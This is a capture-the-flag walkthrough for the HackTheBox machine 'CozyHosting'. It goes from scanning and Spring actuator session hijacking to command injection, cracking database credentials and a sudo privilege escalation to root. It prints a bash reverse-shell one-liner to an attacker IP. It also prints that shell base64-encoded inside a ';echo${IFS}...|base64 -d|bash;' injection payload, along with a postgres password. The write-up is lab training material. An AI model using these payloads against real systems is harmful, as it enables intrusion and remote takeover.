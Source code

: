 # CozyHosting

Scanning ports

nmap -Pn -sC -sV -T4 --min-rate=1000 10.10.11.230

<figure><img src=".gitbook/assets/obrazek (26).png" alt=""><figcaption></figcaption></figure>

Adding to /etc/hosts IP   cozyhosting.htb\
\
Scanning directories&#x20;

```
gobuster dir -u cozyhosting.htb -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src=".gitbook/assets/obrazek (27).png" alt=""><figcaption></figcaption></figure>

We can see /error look like this:

<figure><img src=".gitbook/assets/obrazek (29).png" alt=""><figcaption></figcaption></figure>

On the internet we can find it is spring framework so i ran gobuster with spring wordlist.

\


```
gobuster dir -u cozyhosting.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt
```

<figure><img src=".gitbook/assets/obrazek (30).png" alt=""><figcaption></figcaption></figure>

On the /actuator/sessions we can find authorized session and we paste it into Starage> Value a try to access /admin page

<figure><img src=".gitbook/assets/obrazek (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/obrazek (8).png" alt=""><figcaption></figcaption></figure>

On the admin page we can see Connection string , so we can try reverse shell.

On the [https://www.revshells.com/](https://www.revshells.com/) we create bash revsheel

* ```
  bash -i >& /dev/tcp/<Attacker-IP>/<Attacker-Port> 0>&1
  ```

We select encoding base 64 and we got:

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjMvMTIzNCAwPiYx
```

Now we need create command:

```
;echo${IFS}"<Base64 revshell>"|base64${IFS}-d|bash;
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjMvMTIzNCAwPiYx"|base64${IFS}-d|bash;
```

As hostname we give our IP and Username will be our payload.(Need running nc -lvnp \<port> on our machine.

On the rev shell we download that .jar file with nc

[https://inesmartins.github.io/how-to-dowload-files-from-reverse-shells-on-macos/index.html](https://inesmartins.github.io/how-to-dowload-files-from-reverse-shells-on-macos/index.html)\
But on the attacker machine we call nc-lvp \<port> > file-name

Downlaod jd-gui and open download -jar file

In the application.properties we find username and password for postgres

<figure><img src=".gitbook/assets/obrazek (9).png" alt=""><figcaption></figcaption></figure>

Username: postgres; password: Vg\&nvzAQ7XxR

We can connect to the postgres database

<figure><img src=".gitbook/assets/obrazek (10).png" alt=""><figcaption></figcaption></figure>

\c cozyhosting to connect to database cozyhosting

\d we can see all relations

<figure><img src=".gitbook/assets/obrazek (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/obrazek (12).png" alt=""><figcaption></figcaption></figure>

Okey we have hash to admin: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

Hashid not working there so we find website: [https://hashes.com/en/tools/hash\_identifier](https://hashes.com/en/tools/hash\_identifier)

<figure><img src=".gitbook/assets/obrazek (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/obrazek (16).png" alt=""><figcaption></figcaption></figure>

So we know it is bcrypt(Blowfish)

<figure><img src=".gitbook/assets/obrazek (17).png" alt=""><figcaption></figcaption></figure>

Okey we get password , so we can use ssh to josh\


<figure><img src=".gitbook/assets/obrazek (19).png" alt=""><figcaption></figcaption></figure>

there is user.flag\
with sudo -l we see we can use some commands ad root\
So there is a privilege escalation using sudo -l [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

<figure><img src=".gitbook/assets/obrazek (22).png" alt=""><figcaption></figcaption></figure>

PWNED!
